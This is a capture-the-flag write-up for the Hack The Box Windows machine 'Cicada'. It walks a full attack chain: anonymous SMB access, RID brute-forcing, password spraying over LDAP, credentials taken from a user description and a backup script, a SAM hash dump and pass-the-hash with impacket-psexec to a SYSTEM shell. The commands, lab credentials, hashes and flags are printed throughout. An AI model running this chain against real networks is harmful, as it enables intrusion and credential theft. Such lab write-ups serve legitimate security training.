




Nmap üîó
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 17:25 EDT
Nmap scan report for 10.10.11.35
Host is up (0.050s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-11-03 04:25:56Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after: 2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after: 2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after: 2025-08-22T20:24:16
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after: 2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (89%)
Aggressive OS guesses: Microsoft Windows Server 2022 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2024-11-03T04:26:41
|_ start_date: N/A
|_clock-skew: 7h00m20s
TRACEROUTE (using port 139/tcp)
HOP RTT ADDRESS
1 45.80 ms 10.10.14.1
2 46.19 ms 10.10.11.35
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.78 seconds
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ smbclient -L //10.10.11.35/ -N
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
DEV Disk
HR Disk
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
SYSVOL Disk Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.35 failed (Error
Tried anonymous login on some folders, found that HR is accessible
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ smbclient -N //10.10.11.35/HR
Try "help" to get a list of possible commands.
smb: \> dir
. D 0 Thu Mar 14 08:29:09 2024
.. D 0 Thu Mar 14 08:21:29 2024
Notice from HR.txt A 1266 Wed Aug 28 13:31:48 2024
4168447 blocks of size 4096. 57914 blocks available
smb: \>
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ smbclient -N //10.10.11.35/HR
Try "help" to get a list of possible commands.
smb: \> get "Notice from HR.txt"
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (4.4 KiloBytes/sec) (average 4.4 KiloBytes/sec)
smb: \>
Let’s analyze this file:
We have a default passowrd, but don’t know the related username to use it with, so let’s try to enumerate the usernames:
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ crackmapexec smb cicada.htb -u guest -p '' --rid-brute
SMB cicada.htb 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB cicada.htb 445 CICADA-DC [+] cicada.htb\guest:
SMB cicada.htb 445 CICADA-DC [+] Brute forcing RIDs
SMB cicada.htb 445 CICADA-DC 498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 500: CICADA\Administrator (SidTypeUser)
SMB cicada.htb 445 CICADA-DC 501: CICADA\Guest (SidTypeUser)
SMB cicada.htb 445 CICADA-DC 502: CICADA\krbtgt (SidTypeUser)
SMB cicada.htb 445 CICADA-DC 512: CICADA\Domain Admins (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 513: CICADA\Domain Users (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 514: CICADA\Domain Guests (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 515: CICADA\Domain Computers (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 516: CICADA\Domain Controllers (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 517: CICADA\Cert Publishers (SidTypeAlias)
SMB cicada.htb 445 CICADA-DC 518: CICADA\Schema Admins (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 519: CICADA\Enterprise Admins (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 525: CICADA\Protected Users (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 526: CICADA\Key Admins (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB cicada.htb 445 CICADA-DC 571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB cicada.htb 445 CICADA-DC 572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB cicada.htb 445 CICADA-DC 1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB cicada.htb 445 CICADA-DC 1101: CICADA\DnsAdmins (SidTypeAlias)
SMB cicada.htb 445 CICADA-DC 1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 1103: CICADA\Groups (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 1104: CICADA\john.smoulder (SidTypeUser)
SMB cicada.htb 445 CICADA-DC 1105: CICADA\sarah.dantelia (SidTypeUser)
SMB cicada.htb 445 CICADA-DC 1106: CICADA\michael.wrightson (SidTypeUser)
SMB cicada.htb 445 CICADA-DC 1108: CICADA\david.orelious (SidTypeUser)
SMB cicada.htb 445 CICADA-DC 1109: CICADA\Dev Support (SidTypeGroup)
SMB cicada.htb 445 CICADA-DC 1601: CICADA\emily.oscars (SidTypeUser
Trying the usernames i found that the correct one was michael.wrightson:
ldapsearch -x -H ldap://cicada.htb -D "Cicada\\michael.wrightson" -w 'Cicada$M6Corpb*@Lp#nZp!8' -b "DC=cicada,DC=htb" "(objectClass=user)"
-
ldapsearch: This is the command-line utility used to search an LDAP directory. -
-x: This option tellsldapsearchto use simple authentication instead of SASL (Simple Authentication and Security Layer). -
-H ldap://<IP>: This specifies the LDAP server to connect to. You should replace<IP>with the actual IP address or hostname of the LDAP server you want to query. -
-D "Cicada\\michael.wrightson": This is the bind DN (Distinguished Name) used for authentication. The username is specified asCicada\michael.wrightson. The backslash (\) is escaped with another backslash in the command line. -
-w '<password>': This specifies the password for the userCicada\michael.wrightson. In your case, the password isCicada$M6Corpb*@Lp#nZp!8. Be cautious about including sensitive information like passwords in command-line operations, as they can be exposed in command history or process lists. -
-b "DC=cicada,DC=htb": This defines the base DN (Distinguished Name) from which the search begins. In this case, it specifies the domain components for thecicada.htbdomain. -
"(objectClass=user)": This is the search filter. It specifies that the command should return entries that are of the object classuser. This is commonly used to find user accounts in an Active Directory environment.
Once got the output i saved it in a file and analyzed it:

There’s a password in description field for David Orelius:
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ smbclient //cicada.htb/DEV -U david.orelious
Password for [WORKGROUP\david.orelious]:aRt$Lp#7t*VQ!3
smb: \> ls
. D 0 Thu Mar 14 08:31:39 2024
.. D 0 Thu Mar 14 08:21:29 2024
Backup_script.ps1 A 601 Wed Aug 28 13:28:22 2024
4168447 blocks of size 4096. 49639 blocks available
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (2.6 KiloBytes/sec) (average 2.6 KiloBytes/sec)
smb: \>

Once got the file analyze its content:
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ cat Backup_script.ps1
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
Found other credentials inside it, use them with smbclient to browse trough C$
└─$ smbclient //cicada.htb/C$ -U CICADA\\emily.oscars
Password for [CICADA\emily.oscars]:
Try "help" to get a list of possible commands.
smb: \> ls
$Recycle.Bin DHS 0 Thu Mar 14 09:24:03 2024
$WinREAgent DH 0 Mon Sep 23 12:16:49 2024
Documents and Settings DHSrn 0 Thu Mar 14 15:40:47 2024
DumpStack.log.tmp AHS 12288 Sun Nov 3 12:18:49 2024
pagefile.sys AHS 2097360896 Sun Nov 3 20:34:40 2024
PerfLogs D 0 Thu Aug 22 14:45:54 2024
Program Files DR 0 Thu Aug 29 15:32:50 2024
Program Files (x86) D 0 Sat May 8 05:40:21 2021
ProgramData DHn 0 Sun Nov 3 14:53:45 2024
Recovery DHSn 0 Thu Mar 14 15:41:18 2024
Shares D 0 Thu Mar 14 08:21:29 2024
System Volume Information DHS 0 Thu Mar 14 07:18:00 2024
Temp D 0 Sun Nov 3 15:26:00 2024
temporary D 0 Sun Nov 3 19:47:16 2024
Users DR 0 Mon Aug 26 16:11:25 2024
Windows D 0 Sun Nov 3 21:19:09 2024
4168447 blocks of size 4096. 49574 blocks available
smb: \>
Navigate to emily.oscars' Desktop folder and you’ll find the user flag:
userflag:b1a85553011c051272b8b9bbf05a7258
Use evil-winrm to log in the system
evil-winrm -i cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -s /path/to/local/Winpeas.exe

With crackmapexec we can dump the SAM database:crackmapexec smb cicada.htb -u CICADA\\emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' --sam
Reconnect in smbclient to get the dump, or do it trough evil-winrm shell from C:\Temp folder:

┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
┌──(kali㉿kali)-[~/HTB/Cicada]
└─$ impacket-psexec cicada/Administrator@10.10.11.35 -hashes :2b87e7c93a3e8a0ea4a581937016f341
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Requesting shares on 10.10.11.35.....
[*] Found writable share ADMIN$
[*] Uploading file XnYvdxik.exe
[*] Opening SVCManager on 10.10.11.35.....
[*] Creating service noqz on 10.10.11.35.....
[*] Starting service noqz.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2700]
(c) Microsoft Corporation. All rights reserved.
C:\Windows\system32>

Then get root.txt in C:\Users\Administrator\Desktop>

rootflag:03875ddc5ded5559275b9be9ca9d0dd3